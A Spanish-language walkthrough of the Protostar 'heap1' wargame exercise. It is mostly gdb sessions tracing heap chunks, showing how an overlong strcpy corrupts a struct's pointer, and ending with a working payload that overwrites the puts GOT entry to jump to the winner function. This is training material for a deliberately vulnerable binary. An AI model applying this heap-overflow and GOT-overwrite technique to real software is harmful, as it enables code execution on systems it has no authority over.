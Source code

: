 
[heap1](#https://exploit.education/protostar/heap-one/)


Para entender esto es muy importante ver como funciona el [heap]()

```console
(gdb) disas main
0x080484c9 <main+16>:   call   0x80483bc <malloc@plt>
0x080484ce <main+21>:   mov    0x14, [esp]

(gdb) b *0x080484ce # Ponemos un breakpoint despues del primer malloc
(gdb) b *0x080484e8 # Tambien otros con los otros 3 mallocs y el strcy (0x080484fd, 0x08048517, 0x0804853d, 0x0804855a)
(gdb) run AAAABBBBCCCCDDDDEEEEFFFF 0000111122223333
(gdb) info proc map   
         0x804a000  0x806b000    0x21000          0           [heap]   # El heap está en  0x804a000

(gdb) define hook-stop
>x/64wx 0x804a000  # Vamos a observar como va evolucionando el heap
>end

# Primer malloc c9 -> ce
0x804a000:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a010:      0x00000000      0x00020ff1      0x00000000      0x00000000

# Segundo malloc e3 -> e8
0x804a000:      0x00000000      0x00000011      0x00000001      0x00000000
0x804a010:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a020:      0x00000000      0x00020fe1      0x00000000      0x00000000

(gdb) set $i1 = (struct internet*)0x804a008   # Tambien observaremos el struct u objeto "internet"

# Tercer malloc f8 -> fd
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a030:      0x00000000      0x00020fd1      0x00000000      0x00000000

(gdb) p *$i1   # internet = {priority = 1, name = 0x804a018 ""}
 
Cuarto malloc 12 -> 17
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000002      0x00000000
0x804a030:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000

Strcpy 38 -> 3d
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x42424242
0x804a020:      0x43434343      0x44444444      0x45454545      0x46464646
0x804a030:      0x00000000      0x00000011      0x00000000      0x00000000
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000

(gdb) p *$i1 
$6 = {priority = 1, name = 0x804a018 "AAAABBBBCCCCDDDDEEEEt\227\004\b"}
```
Como se puede ver el strcpy ha empezado a escribir en  0x0804a018, pero al no acabarse (overflow), ha desbordado el chunk siguiente, en concreto el que 
correspondia al segundo objeto, la parte de nombre y que almacenaba la dirección donde se escribiría este (dada por el malloc). Por tanto colpasa con 
un SEGFAULT ya que la memoria "0x46464646" no existe (las "F")

Es decir, el primer argumento "AAAABBBBCCCCDDDDEEEEFFFF" acaba siendo "¿Donde escribir?" por ser taaan largo.

```console
(gdb) run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII
Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, src=0x0) at strcpy.c:39

(gdb) run AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIII 0000111122223333
Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, src=0xbffff8ad "0000111122223333") at strcpy.c:40
```
El segundo argumento por tanto es ¿que escribir? Y aquí es como podemos abusar de la Global Offset Table;
> tabla donde estan las direcciones de las funciones, las escribe una funcion del sistema, pero tambien la podemos escribir nosotros con la funcion que
> nos de la gana ejecutar en lugar de la funcion buena.

```console
[cucuxii]:$ objdump -D ./heap1
08048494 <winner>:        # -> \x94\x84\x04\x08
[cucuxii]:$ gdb ./heap1
(gdb) disas main
0x08048561 <main+168>:  call   0x80483cc <puts@plt>
(gdb) disas 0x80483cc
0x080483cc <puts@plt+0>:        jmp    *0x8049774   # -> \x74\x97\x04\x08

(gdb) run "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" "`/bin/echo -ne "\x94\x84\x04\x08"`"
and we have a winner @ 1657877687   # echo -ne -> sin salto de linea y formato bytes
```


